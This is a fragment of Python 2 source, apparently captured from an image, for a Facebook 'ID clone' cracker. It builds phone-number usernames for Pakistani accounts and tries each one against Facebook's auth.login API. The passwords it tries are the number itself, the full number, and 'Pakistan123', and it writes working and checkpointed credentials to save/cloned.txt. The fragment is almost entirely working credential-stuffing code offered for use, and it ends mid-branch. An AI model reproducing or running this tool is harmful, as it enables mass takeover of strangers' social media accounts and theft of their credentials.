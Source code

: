     xxx = str(len(id))
    jalan('\033[1;91m▬10%')
    jalan("\033[1;92m▬▬20%")
    jalan('\033[1;93m▬▬▬30%')
    jalan('\033[1;94m▬▬▬▬40%')
    jalan("\033[1;95m▬▬▬▬▬50%")
    jalan("\033[1;96m▬▬▬▬▬▬60%    \033[1;92mPAKISTAN Country ID Clone")
    jalan('\033[1;97m▬▬▬▬▬▬▬70%')
    jalan('\033[1;91m▬▬▬▬▬▬▬▬80%')
    jalan('\033[1;93m▬▬▬▬▬▬▬▬▬90%')
    jalan('\033[1;92m▬▬▬▬▬▬▬▬▬100%')
    jalan ('\033[1;96m Total ids number: '+xxx)
    jalan ('\033[1;95mCode you choose: '+c)
    jalan ("\033[1;94mWait A While Start Cracking...")
    jalan ("\033[1;93mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;93m(done)  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m(7Days) ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + c + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;93m(Done)  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m(7days) ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan123"